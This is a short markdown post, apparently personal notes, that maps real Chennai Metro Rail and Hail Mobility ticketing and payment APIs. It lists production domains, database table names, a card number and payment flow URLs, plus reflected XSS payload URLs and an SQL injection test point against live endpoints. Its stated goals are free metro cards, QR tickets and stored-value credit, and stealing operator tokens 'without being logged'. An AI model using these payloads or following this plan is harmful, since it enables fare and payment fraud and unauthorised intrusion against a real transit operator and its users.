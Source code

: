 ```yaml
---
layout: post
title: Bug Bounty Resources
image: /assets/malware.jpg
tags: sqli
---
```


This post contains resources for bug bounty.

## SQLI

[Blind SQLI](https://youtu.be/uN8Tv1exPMk)
[Blind SQLI Manual + sqlmap](https://youtu.be/TjRK3aVEC60)

t_payment_details

account take over
sqlmap
LFI
SQLI

## Tables

`t_tc_cardtransaction` -> Card transaction table
`t_tc_registration` -> User table

## Domains

`apiprod.chennaimetrorail.org`
`rechargeapi.chennaimetrorail.org`
`mticket-api.hailmobility.in`  -> QR code stored here,  main payment here, uses JWT + JWE token to verify user
`mmjp-api.hailmobility.in`
`ticketsapi.chennaimetrorail.org`

CardNo: 1100095658

check tickets api what it does, if hail mobility is independant wtf is CMRL used for?

## XXS

```
http://rechargeapi.chennaimetrorail.org/api/ValidateCard/Getdetails?CMRLsurfacenumber=<h1>hi</h1>
```

```
https://rechargeapi.chennaimetrorail.org/api/ValidateCard/Getdetails?CMRLsurfacenumber=%3Cscript%3Ealert(document.domain)%3C/script%3E
```

## SQLI

`https://apiprod.chennaimetrorail.org/v4/api/ValidateOTP?OTP=SQLI`

SELECT Price FROM t_tc_cardtransaction WHERE Id = 239714;

## QR Procedure

```
https://mticket-api.hailmobility.in/bookingengine/api/v1/booking/initiate


https://pgi.billdesk.com/pgidsk/PGIMerchantPayment



AFter pay

https://mticket-api.hailmobility.in/paymentengine/api/v1/payment/billdesk/update-transaction/
https://mticket-api.hailmobility.in/bookingengine/api/v1/booking/redirectonbooking?orderId=9795370&status=FAILURE&type=ticket&oldOrderId=
```

## Goal

1. Metro card free (only this stored in cmrl)
2. QR generate free (hail mobility)
3. Store value card free (hail moblity spring boot)

## Target Operators?

steal existing operator token without being logged

QRTicketController webview